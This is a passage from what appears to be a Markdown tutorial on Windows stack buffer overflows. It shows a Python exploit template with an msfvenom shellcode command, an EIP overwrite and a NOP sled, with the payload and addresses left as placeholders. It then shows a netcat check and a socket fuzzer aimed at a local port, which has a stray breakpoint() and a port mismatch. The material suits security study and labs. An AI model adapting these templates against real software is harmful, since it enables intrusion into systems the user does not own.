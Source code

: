 Now, we know:
- **Buffer**: we can fill the buffer with `A`
- **EIP**: 4 bytes of a address 
- **buf**: shellcode

Modify our Python Script:
```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b \x00
    buf = b""
    buf += b"<payload>"
    buf += b"<payload>"

    offset = <bytes>
    buffer = b"A"*offset
    eip = pack('<L', 0x<address>)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('<file>', 'wb') as f:
        f.write(payload)


exploit()
```

---

# Remote Buffer Overflow 

## Remote Fuzzing 

First see which programs are running through the net:
```console
PS C:\> netstat -a 

TCP 0.0.0.0:8080        0.0.0.0:0      LISTENING
```

We can interact using netcat:
```console
PS C:\> .\nc.exe 127.0.0.1 8080
```

This Python Script will fuzz a remote port, searching the number of bytes which crash:
```python
import socket
from struct import pack


def fuzz():
    try:
        for i in range(0, 10000, 500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("127.0.0.1", 8888))
            breakpoint()
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")
```
